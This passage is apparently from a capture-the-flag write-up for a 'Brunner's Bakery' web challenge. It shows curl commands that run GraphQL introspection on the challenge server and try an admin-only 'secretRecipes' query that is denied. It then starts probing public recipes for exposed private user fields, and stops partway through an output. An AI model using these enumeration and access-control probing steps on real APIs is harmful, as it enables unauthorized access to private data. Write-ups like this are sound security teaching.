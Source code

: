 ```┌──(venv)─(kali㉿kali)-[~/Desktop/forensics_new-order] 

└─$ curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql \ -H 

"Content-Type: application/json" \ -d '{"query":"{ __schema { types { name fields { name } } } }"}' {"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"publicRecipes"},{"name":"secretRecipes"},{"name":"me"}]},{"name":"Mutation","fields":[{"name":"login"}]},{"name":"String","fields":null},{"name":"AuthPayload","fields":[{"name":"token"},{"name":"user"}]},{"name":"Recipe","fields":[{"name":"id"},{"name":"name"},{"name":"description"},{"name":"isSecret"},{"name":"author"},{"name":"ingredients"}]},{"name":"ID","fields":null},{"name":"Boolean","fields":null},{"name":"Ingredient","fields":[{"name":"name"},{"name":"supplier"}]},{"name":"Supplier","fields":[{"name":"id"},{"name":"name"},{"name":"owner"}]},{"name":"User","fields":[{"name":"id"},{"name":"username"},{"name":"displayName"},{"name":"email"},{"name":"notes"},{"name":"privateNotes"},{"name":"recipes"}]},{"name":"__Schema","fields":[{"name":"description"},{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"specifiedByURL"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"},{"name":"isOneOf"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"isRepeatable"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null}]}}}
```

there's a field called 'secretRecipes', which could be where our flag is. 

`curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ secretRecipes { id name description isSecret author { displayName } ingredients { name supplier { name } } } }"}'
`
```
{"errors":[{"message":"Access denied. admin only.","locations":[{"line":1,"column":3}],"path":["secretRecipes"],"extensions":{"code":"UNAUTHENTICATED","exception":{"stacktrace":["AuthenticationError: Access denied. admin only."," at Object.secretRecipes (/app/server.js:213:15)"," at field.resolve (/app/node_modules/apollo-server-core/dist/utils/schemaInstrumentation.js:56:26)"," at executeField (/app/node_modules/graphql/execution/execute.js:500:20)"," at executeFields (/app/node_modules/graphql/execution/execute.js:422:22)"," at executeOperation (/app/node_modules/graphql/execution/execute.js:352:14)"," at execute (/app/node_modules/graphql/execution/execute.js:136:20)"," at execute (/app/node_modules/apollo-server-core/dist/requestPipeline.js:207:48)"," at processGraphQLRequest (/app/node_modules/apollo-server-core/dist/requestPipeline.js:150:34)"," at process.processTicksAndRejections (node:internal/process/task_queues:105:5)"," at async processHTTPRequest (/app/node_modules/apollo-server-core/dist/runHttpQuery.js:222:30)"]}}}],"data":null}
```

we got blocked because we don't have admin creds.

not to worry, let's find another way in.

looking at the public recipes:

```
{
  "data": {
    "publicRecipes": [
      {
        "author": {
          "username": "sally",
          "privateNotes": null
        }
      },
      {
        "author": {
          "username": "sally",
          "privateNotes": null
```